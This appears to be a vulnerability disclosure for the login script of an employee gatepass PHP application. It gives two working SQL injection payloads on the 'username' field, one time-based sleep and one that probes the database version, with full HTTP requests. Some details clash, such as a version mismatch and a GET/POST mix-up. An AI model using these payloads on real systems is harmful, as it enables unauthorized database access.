 BUG_Author: ZongXinLi

Vulnerability File: /employee_gatepass/classes/Login.php

GET parameter 'username' exists SQL injection vulnerability

Payload1:`username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123
```

The server's response time is 10 seconds

![image-20230418110724744](/SQLI2/SQLi-1.png)

Payload2:`username=admin'and left(version(),6)='5.7.27' AND 'ledo'='ledo&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin'and left(version(),6)='5.7.26' AND 'ledo'='ledo&password=admin123
```

Error injection success

When I enter the version number 5.7.26, it returns "success". Error statement when typing 5.7.27

![image-20230418112554085](./SQLi-2.png)

![image-20230418112616037](/SQLi-3.png)
